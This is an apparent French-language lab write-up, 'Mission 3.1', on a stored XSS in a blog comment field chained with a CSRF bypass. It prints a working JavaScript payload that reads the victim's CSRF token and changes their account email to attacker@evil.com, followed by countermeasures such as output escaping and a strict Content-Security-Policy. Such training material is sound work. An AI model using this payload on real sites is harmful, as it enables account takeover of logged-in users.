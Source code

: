 # 🧪 Mission 3.1 – XSS Persistant Avancé + Contournement CSRF

## 🎯 Objectif
Exploiter une faille XSS stockée dans un champ de commentaire pour automatiser une attaque sur l'utilisateur connecté (ex. : changement d’email), en contournant la protection CSRF.

## 🔍 Contexte
- L’utilisateur connecté consulte une page de blog.
- Un commentaire injecté déclenche un script invisible.
- Le script vole un token CSRF et exécute une action POST.

## 💉 Payload utilisé

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var change = new XMLHttpRequest();
    change.open('POST', '/my-account/change-email', true);
    change.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    change.send('csrf=' + token + '&email=attacker@evil.com');
  };
  req.open('GET', '/my-account', true);
  req.send();
</script>
✅ Résultat
L’email de l’utilisateur connecté est modifié.

Le script est exécuté silencieusement.

XSS combiné à une attaque CSRF réussie.

🛡️ Contre-mesures
Échapper toutes les entrées utilisateur.

Ne jamais afficher un token sensible dans une page.

Content-Security-Policy stricte (script-src 'self').

🏅 Badge : Payload Engineer
yaml
Copier
Modifier
